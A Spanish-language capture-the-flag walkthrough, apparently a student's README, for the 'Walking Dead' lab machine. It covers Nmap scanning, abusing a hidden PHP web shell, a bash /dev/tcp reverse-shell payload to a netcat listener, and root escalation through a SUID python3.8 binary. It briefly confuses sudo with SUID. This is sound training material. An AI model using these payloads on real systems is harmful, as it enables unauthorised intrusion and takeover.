
<h1>Walking Dead</h1>
  

## ❓ ¿Qué es Walking Dead?

Walking Dead es una máquina vulnerable orientada a la explotación de servicios web en entornos Linux, donde se practican técnicas de reconocimiento de servicios, análisis de código fuente y ejecución remota de comandos a través de una web shell expuesta. Permite trabajar la enumeración inicial con Nmap, el descubrimiento de recursos ocultos dentro de un servidor Apache y la obtención de acceso remoto mediante reverse shell. Posteriormente, se profundiza en la escalada de privilegios a través de la identificación de binarios con permisos SUID inseguros, explotando intérpretes como Python para alcanzar privilegios de administrador siguiendo técnicas habituales documentadas en GTFOBins.

> [!NOTE]
>
>Puede descargar la máquina a través del **[enlace mega](https://mega.nz/file/KYF0CAia#VZDiYoAnlpQ1n61yLqOkFfCApsLeqOgPL9Hyoi8tzgM)**

## 🔝 Despliegue Walking Dead

Al descargar la máquina, es necesario descompromirlo para poder encontrar los archivos necesarios para poder desplegarla, para ello, utilizaremos el comando.

**unzip walkingdead.zip.**



Obtendremos dos ficheros:
- **Auto_deploy.sh:** Script Bash para desplegar nuestra máquina localmente.
- **walkindead.tar:** Máquina vulnerable contenizada.

Para desplegar el servicio será necesario carle permisos de ejecución a auto_deploy.sh, ya que por defecto tiene permisos 644. Para ello, usaremos el comando:

 **chmod +x auto_deploy.sh**

 Una vez ejecutado, se utilizará el comando **./auto_deploy.sh walkingdead.tar** para lanzar la máquina


## 🔎 Fase de Descubrimiento 
Ahora, se abrirá una nueva terminal para empezar a realizar el descubrimiento del sistema. Cómo sabemos la dirección IP de la máquina vulnerable **(172.17.0.2)**, comenzaremos realizando un escaneo de red nmap. 
En esta ocación, se usará el comando **nmap -sC -sV -T5 172.17.0.2**

En este caso, he añadido -oN escaneo.txt para tener el escaneo guardado en un fichero sin necesidad repetirlo en un futuro.

| Argumento | Significado |
|---|---|
| -sC | Ejecuta los scripts para comprobaciones comunes |
| -sV | Detección de versiones de servicios |
| -T5 | Velocidad máxima |
| 172.17.0.2 | Dirección IP del objetivo a escanear |



> [!NOTE]
>
>Se ha realizado un escaneo agresivo debido a que se está realizando en un entorno controlado y no es importante el ser detectado. Si se busca hacer el mínimo ruido posible será necesario utilizar el argumento **-sS** se usa para no ser detectado fácilmente, porque no completa la conexión TCP. Además, **no se usará -T5.**

En este caso, se ha encontrado un servicio activo:
- **HTTP (Puerto 80):** Servidor web.

A continuación, se dispone a visitar la página web, se encuentra la página inicial de apache en Debian:



## 🖥️ Acceso al servidor
Revisando el código fuente, nos encontramos un fichero oculto llamado shell.php dentro de la carpeta hidden.



Al abrir el archivo, se le añade (?cmd=comando) al final de la ruta para poder ejecutar comandos desde la shell.



Se procede a listar la carpeta /home para poder encontrar los usuarios del sistema.



Se ha encontrado los usuarios:
    - rick
    - negan
    - wwdata

Se procede a realizar una reverse Shell con la cmd. Primeramente, se abrirá un listener al puerto 4444 a través netcat usando el comando **nc -lvnp 4444**.

Posteriormente se ejecuta en el navegador. **172.17.0.2/hidden/.shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/4444 <%261'**. 





## 🔓 Escalada de privilegios

A continuación, se realiza **find** para encontrar ficheros con permisos SUID 4000. Ya que no se tiene sudo instalado



En este caso se muestra que se puede ejecutar el binario python3.8 comando con sudo sin necesidad de contraseña.

Se ve que el binario python3.8 está dentro de los permisos filtrados. Realizamos el comando **/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'** para obtener acceso cómo usuario root



## 🧪 Post-Laboratorio
Una vez finalizada la máquina, en la terminal donde se tiene desplegada la máquina vulnerable se utilizará la combinación de teclas **Control + C** para eliminarla.



##   ¡Hola! Me llamo Saúl Ruiz 
### Estudiante en Ciberseguridad

Soy estudiante de Administración de Sistemas Informáticos en Red con pasión por la ciberseguridad y el mundo de la informática. Desde pequeño disfruto explorando tecnología y aprendiendo de manera autónoma. Además, combino mis estudios con la creación de contenido y recursos educativos sobre informática a través de mi proyecto personal <b>[@PlaSysX](https://linktr.ee/PlaSysx)</b>

Si quieres aprender informática, mejorar tus habilidades, descubrir trucos y soluciones prácticas, y formar parte de nuestra comunidad, puedes seguirnos en PlaSysX.

 

